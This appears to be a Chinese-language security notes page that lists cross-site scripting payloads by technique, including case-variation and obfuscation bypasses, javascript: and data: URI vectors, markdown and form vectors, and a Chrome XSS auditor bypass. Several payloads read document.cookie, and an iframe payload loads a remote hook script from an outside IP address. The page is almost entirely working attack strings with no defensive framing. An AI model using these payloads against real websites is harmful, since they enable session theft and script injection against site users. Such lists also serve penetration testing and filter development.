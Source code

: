 Payload
================================

常用
---------------------------------------------------

- ``<script>alert(/xss/)</script>``
- ``<svg onload=alert(document.domain)>``
- ``<img src=document.domain onerror=alert(document.domain)>``
- ``<M onmouseover=alert(document.domain)>M``
- ``<marquee onscroll=alert(document.domain)>``
- ``<a href=javascript:alert(document.domain)>M</a>``
- ``<body onload=alert(document.domain)>``
- ``<details open ontoggle=alert(document.domain)>``
- ``<embed src=javascript:alert(document.domain)>``

大小写绕过
---------------------------------------------------

- ``<script>alert(1)</script>``
- ``<sCrIpT>alert(1)</sCrIpT>``
- ``<ScRiPt>alert(1)</ScRiPt>``
- ``<sCrIpT>alert(1)</ScRiPt>``
- ``<ScRiPt>alert(1)</sCrIpT>``
- ``<img src=1 onerror=alert(1)>``
- ``<iMg src=1 oNeRrOr=alert(1)>``
- ``<ImG src=1 OnErRoR=alert(1)>``
- ``<img src=1 onerror="alert(&quot;M&quot;)">``

- ``<marquee onscroll=alert(1)>``
- ``<mArQuEe OnScRoLl=alert(1)>``
- ``<MaRqUeE oNsCrOlL=alert(1)>``

各种alert
---------------------------------------------------

- ``<script>alert(1)</script>``
- ``<script>confirm(1)</script>``
- ``<script>prompt(1)</script>``
- ``<script>alert('1')</script>``
- ``<script>alert("1")</script>``
- ``<script>alert`1`</script>``
- ``<script>(alert)(1)</script>``
- ``<script>a=alert,a(1)</script>``
- ``<script>[1].find(alert)</script>``
- ``<script>top["al"+"ert"](1)</script>``
- ``<script>top["a"+"l"+"e"+"r"+"t"](1)</script>``
- ``<script>top[/al/.source+/ert/.source](1)</script>``
- ``<script>top[/a/.source+/l/.source+/e/.source+/r/.source+/t/.source](1)</script>``

伪协议
---------------------------------------------------

- ``<a href=javascript:/0/,alert(%22M%22)>M</a>``
- ``<a href=javascript:/00/,alert(%22M%22)>M</a>``
- ``<a href=javascript:/000/,alert(%22M%22)>M</a>``
- ``<a href=javascript:/M/,alert(%22M%22)>M</a>``


Chrome XSS auditor bypass
---------------------------------------------------

- ``?param=https://&param=@z.exeye.io/import%20rel=import%3E``
- ``<base href=javascript:/M/><a href=,alert(1)>M</a>``
- ``<base href=javascript:/M/><iframe src=,alert(1)></iframe>``

长度限制
---------------------------------------------------

:: 

    <script>s+="l"</script>
    \...
    <script>eval(s)</script>

jquery sourceMappingURL
---------------------------------------------------
    ``</textarea><script>var a=1//@ sourceMappingURL=//xss.site</script>``

图片名
---------------------------------------------------
    ``"><img src=x onerror=alert(document.cookie)>.gif``

过期的payload
---------------------------------------------------
- src=javascript:alert基本不可以用
- css expression特性只在旧版本ie可用

css
---------------------------------------------------

::

    <div style="background-image:url(javascript:alert(/xss/))">
    <STYLE>@import'http://ha.ckers.org/xss.css';</STYLE>


markdown
---------------------------------------------------

::

    [a](javascript:prompt(document.cookie))
    [a](j    a   v   a   s   c   r   i   p   t:prompt(document.cookie))
    <&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>  
    ![a'"`onerror=prompt(document.cookie)](x)
    [notmalicious](javascript:window.onerror=alert;throw%20document.cookie)
    [a](data:text/html;base64,PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4=)
    ![a](data:text/html;base64,PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4=)


iframe
---------------------------------------------------

::

    <iframe onload='
        var sc   = document.createElement("scr" + "ipt");
        sc.type  = "text/javascr" + "ipt";
        sc.src   = "http://1.2.3.4/js/hook.js";
        document.body.appendChild(sc);
        '
    />

- ``<iframe src=javascript:alert(1)></iframe>``
- ``<iframe src="data:text/html,<iframe src=javascript:alert('M')></iframe>"></iframe>``
- ``<iframe src=data:text/html;base64,PGlmcmFtZSBzcmM9amF2YXNjcmlwdDphbGVydCgiTWFubml4Iik+PC9pZnJhbWU+></iframe>``
- ``<iframe srcdoc=<svg/o&#x6E;load&equals;alert&lpar;1)&gt;></iframe>``
- ``<iframe src=https://baidu.com width=1366 height=768></iframe>``
- ``<iframe src=javascript:alert(1) width=1366 height=768></iframe``

form
---------------------------------------------------

- ``<form action=javascript:alert(1)><input type=submit>``
- ``<form><button formaction=javascript:alert(1)>M``
- ``<form><input formaction=javascript:alert(1) type=submit value=M>``
- ``<form><input formaction=javascript:alert(1) type=image value=M>``
- ``<form><input formaction=javascript:alert(1) type=image src=1>``

meta
---------------------------------------------------

``<META HTTP-EQUIV="Link" Content="<http://ha.ckers.org/xss.css>; REL=stylesheet">``

